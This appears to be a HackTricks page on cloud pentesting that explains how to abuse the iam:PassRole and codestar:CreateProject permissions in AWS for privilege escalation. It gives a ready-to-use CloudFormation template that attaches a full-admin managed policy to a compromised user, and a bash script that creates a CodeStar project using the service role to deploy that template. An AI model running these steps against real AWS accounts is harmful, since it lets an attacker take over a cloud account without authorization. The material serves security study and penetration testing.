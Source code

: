 # iam:PassRole, codestar:CreateProject

{{#include ../../../../banners/hacktricks-training.md}}

With these permissions you can **abuse a codestar IAM Role** to perform **arbitrary actions** through a **cloudformation template**.

To exploit this you need to create a **S3 bucket that is accessible** from the attacked account. Upload a file called `toolchain.json` . This file should contain the **cloudformation template exploit**. The following one can be used to set a managed policy to a user under your control and **give it admin permissions**:

```json:toolchain.json
{
  "Resources": {
    "supercodestar": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "ManagedPolicyName": "CodeStar_supercodestar",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": "*",
              "Resource": "*"
            }
          ]
        },
        "Users": ["<compromised username>"]
      }
    }
  }
}
```

Also **upload** this `empty zip` file to the **bucket**:

{% file src="../../../../images/empty.zip" %}

Remember that the **bucket with both files must be accessible by the victim account**.

With both things uploaded you can now proceed to the **exploitation** creating a **codestar** project:

```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
    {
        \"source\": {
            \"s3\": {
                \"bucketName\": \"privesc\",
                \"bucketKey\": \"empty.zip\"
            }
    },
        \"destination\": {
            \"codeCommit\": {
                \"name\": \"$PROJECT_NAME\"
            }
        }
    }
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
    \"source\": {
        \"s3\": {
            \"bucketName\": \"privesc\",
            \"bucketKey\": \"toolchain.json\"
        }
    },
    \"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
    --name $PROJECT_NAME \
    --id $PROJECT_NAME \
    --source-code file://$SOURCE_CODE_PATH \
    --toolchain file://$TOOLCHAIN_PATH
```

This exploit is based on the **Pacu exploit of these privileges**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam__privesc_scan/main.py#L1997) On it you can find a variation to create an admin managed policy for a role instead of to a user.

{{#include ../../../../banners/hacktricks-training.md}}





